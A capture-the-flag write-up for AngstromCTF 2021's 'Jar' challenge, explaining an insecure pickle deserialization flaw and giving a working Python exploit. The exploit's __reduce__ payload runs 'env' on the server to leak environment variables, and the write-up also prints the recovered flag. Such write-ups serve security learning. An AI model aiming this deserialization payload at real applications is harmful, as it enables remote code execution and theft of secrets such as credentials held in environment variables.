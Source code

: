 # AngstromCTF2021 Jar
By looking at the sourcecode we see that the package `pickle` i imported and used for deserialization. Looking at the `pickle` docs we find the warning:
```
Warning: The pickle module is not secure. Only unpickle data you trust.
```
We then notice that the data isn't sanitized. This enables us to use a deserialization attack to gain RCE.

We notice in the dockerfile that the flag is set as an environmental variable. Therefore by printing the environmental variables we can get the flag.

Coding up the payload we get:
```
# Web application is vulnerable to a deserialization attack
# https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565
import os
import pickle
import requests
import base64
import subprocess

# Class returns output of env when deserialized
class MyEvilPickle(object):
    def __reduce__(self):
        return (subprocess.check_output, ('env', ))

# Wrap class in list so we can append things serverside
pickle_data = pickle.dumps([MyEvilPickle()])

# Handle encoding and remove b''
pickle_data = str(base64.b64encode(pickle_data))
pickle_data = pickle_data[2:-1]

url = "https://jar.2021.chall.actf.co/"

# Contents cookie will be deserialized on server
cookie = dict(contents=pickle_data)
session = requests.Session()
r = session.post(url+"/add", cookies=cookie, data={"item":"lol_hax"})

# Get and parse returned cookies
env_vars = session.cookies.get_dict()["contents"]
env_vars =  pickle.loads(base64.b64decode(env_vars))
env_vars = str(env_vars[0]).split("\\n")
# Find and print flag
for i in env_vars:
    if "actf{" in i:
        print(i)
```
And we find the flag: `actf{you_got_yourself_out_of_a_pickle}`
